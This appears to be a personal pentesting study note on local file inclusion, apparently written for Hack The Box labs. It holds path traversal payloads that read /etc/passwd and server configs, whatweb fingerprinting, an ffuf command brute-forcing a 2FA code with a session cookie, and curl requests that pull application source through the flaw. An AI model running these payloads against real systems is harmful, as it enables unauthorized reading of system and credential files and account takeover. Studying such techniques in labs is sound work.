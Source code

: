 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[LFI]]  
___

## Description:  
### Local File Inclusion


`http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd
if that doesn't work try adding an allowed extension:
`http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd.html
Or try different syntax like:
`GET /download?file=....//....//...//....//....//etc/bind/named.conf`

seclist has lists of lfi's that can be used.

### whatweb can identify web severs and get common directories
https://github.com/urbanadventurer/WhatWeb
```

./whatweb http://only4you.htb/

Lightbox, Script, Title[Only4you], nginx[1.18.0]
```

### Common webserver directories

- `C:\inetpub\wwwroot`
- `/var/www/ (before Ubuntu 14.04)` 
- `/var/www/html/ (Ubuntu 14.04 and later)`
- ``/usr/share/nginx/html (nginx)`` 
- ``/usr/share/nginx``

### Fuff Automation

Once an lfi is discovered, fluff can be used for automation. Look for different extensions in the web root directory like .py, .php, etc.
```
ffuf -w number.txt -X POST -d "password=FUZZ" -b "TCSESSIONID=74BCFD74A212BEC7DF8533FAD3E6FA50" -request ../request.txt -u https://teamcity-dev.coder.htb/2fa.html -fr "Incorrect" -c
```

You can also use gobuster with the -x flag to enumerate different file extensions.

### Look for import statements in source code

```
root@kali:~# curl -X POST http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/app.py"
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid
```

"from form import sendmessage" means there is a file called form.py
```
root@kali:~# curl -X POST http://beta.only4you.htb/download -d  image=/var/www/only4you.htb/form.py
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:32 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
